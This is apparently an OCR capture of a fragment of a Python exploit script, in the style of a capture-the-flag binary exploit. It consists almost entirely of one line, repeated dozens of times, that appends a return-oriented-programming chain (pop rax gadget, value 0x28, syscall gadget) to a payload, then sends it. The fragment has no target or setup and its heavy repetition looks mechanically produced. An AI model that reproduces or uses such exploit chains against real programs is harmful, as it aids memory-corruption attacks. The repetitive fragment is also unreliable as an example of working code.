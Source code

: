 ```python
payload += p64(pop_rax_ret) + p64(0x28) + p64(syscall_ret)
payload += p64(pop_rax_ret) + p64(0x28) + p64(syscall_ret)
payload += p64(pop_rax_ret) + p64(0x28) + p64(syscall_ret)
payload += p64(pop_rax_ret) + p64(0x28) + p64(syscall_ret)
payload += p64(pop_rax_ret) + p64(0x28) + p64(syscall_ret)
payload += p64(pop_rax_ret) + p64(0x28) + p64(syscall_ret)
payload += p64(pop_rax_ret) + p64(0x28) + p64(syscall_ret)
payload += p64(pop_rax_ret) + p64(0x28) + p64(syscall_ret)
payload += p64(pop_rax_ret) + p64(0x28) + p64(syscall_ret)
payload += p64(pop_rax_ret) + p64(0x28) + p64(syscall_ret)
payload += p64(pop_rax_ret) + p64(0x28) + p64(syscall_ret)
payload += p64(pop_rax_ret) + p64(0x28) + p64(syscall_ret)
payload += p64(pop_rax_ret) + p64(0x28) + p64(syscall_ret)
payload += p64(pop_rax_ret) + p64(0x28) + p64(syscall_ret)
payload += p64(pop_rax_ret) + p64(0x28) + p64(syscall_ret)
payload += p64(pop_rax_ret) + p64(0x28) + p64(syscall_ret)
payload += p64(pop_rax_ret) + p64(0x28) + p64(syscall_ret)
payload += p64(pop_rax_ret) + p64(0x28) + p64(syscall_ret)
payload += p64(pop_rax_ret) + p64(0x28) + p64(syscall_ret)
payload += p64(pop_rax_ret) + p64(0x28) + p64(syscall_ret)
payload += p64(pop_rax_ret) + p64(0x28) + p64(syscall_ret)
payload += p64(pop_rax_ret) + p64(0x28) + p64(syscall_ret)
payload += p64(pop_rax_ret) + p64(0x28) + p64(syscall_ret)
payload += p64(pop_rax_ret) + p64(0x28) + p64(syscall_ret)
payload += p64(pop_rax_ret) + p64(0x28) + p64(syscall_ret)
payload += p64(pop_rax_ret) + p64(0x28) + p64(syscall_ret)
payload += p64(pop_rax_ret) + p64(0x28) + p64(syscall_ret)
payload += p64(pop_rax_ret) + p64(0x28) + p64(syscall_ret)
payload += p64(pop_rax_ret) + p64(0x28) + p64(syscall_ret)
payload += p64(pop_rax_ret) + p64(0x28) + p64(syscall_ret)
payload += p64(pop_rax_ret) + p64(0x28) + p64(syscall_ret)
payload += p64(pop_rax_ret) + p64(0x28) + p64(syscall_ret)
payload += p64(pop_rax_ret) + p64(0x28) + p64(syscall_ret)
payload += p64(pop_rax_ret) + p64(0x28) + p64(syscall_ret)
payload += p64(pop_rax_ret) + p64(0x28) + p64(syscall_ret)
payload += p64(pop_rax_ret) + p64(0x28) + p64(syscall_ret)
payload += p64(pop_rax_ret) + p64(0x28) + p64(syscall_ret)
payload += p64(pop_rax_ret) + p64(0x28) + p64(syscall_ret)
payload += p64(pop_rax_ret) + p64(0x28) + p64(syscall_ret)
payload += p64(pop_rax_ret) + p64(0x28) + p64(syscall_ret)
payload += p64(pop_rax_ret) + p64(0x28) + p64(syscall_ret)
payload += p64(pop_rax_ret) + p64(0x28) + p64(syscall_ret)
payload += p64(pop_rax_ret) + p64(0x28) + p64(syscall_ret)
payload += p64(pop_rax_ret) + p64(0x28) + p64(syscall_ret)
payload += p64(pop_rax_ret) + p64(0x28) + p64(syscall_ret)
payload += p64(pop_rax_ret) + p64(0x28) + p64(syscall_ret)
payload += p64(pop_rax_ret) + p64(0x28) + p64(syscall_ret)
payload += p64(pop_rax_ret) + p64(0x28) + p64(syscall_ret)
s(payload)
```
